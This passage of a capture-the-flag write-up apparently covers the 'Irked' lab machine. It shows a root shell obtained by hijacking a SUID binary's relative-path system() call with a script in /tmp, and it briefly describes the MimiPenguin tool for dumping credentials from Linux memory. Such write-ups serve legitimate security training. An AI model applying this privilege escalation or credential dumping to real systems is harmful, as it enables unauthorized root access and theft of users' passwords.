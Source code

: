 Looking at the `ltrace` output, notice that the `system("who"` doesn't call the full binary path. Also, the `system("/tmp/listusers.sh") not found`

I simply create the `listusers` in the tmp directory and put the following code in it.
```
djmardov@irked:/tmp$ cat listusers
#!/bin/bash
bash
```
and than run the `viewuser` command again.
```
djmardov@irked:/tmp$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2024-10-05 00:28 (:0)
djmardov pts/0        2024-10-05 00:44 (10.10.14.8)
root@irked:/tmp# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
```

Get your root flag

###### `Dump Login Passwords From Current Linux Users - Mimipenguin`
```
MimiPenguin works similarly to the well-known “mimikatz” for Windows, but is designed for Linux and attempts to dump cleartext credentials from memory from the following applications

    Apache2 (Active HTTP Basic Auth Sessions)
    OpenSSH (Active SSH Sessions - Sudo Usage)
    GDM password (Kali Desktop, Debian Desktop)
    Gnome Keyring (Ubuntu Desktop, ArchLinux Desktop)
    VSFTPd (Active FTP Connections)
https://nored0x.github.io/penetration%20testing/Dump-Login-Passwords-From-Current-Linux-Users/
```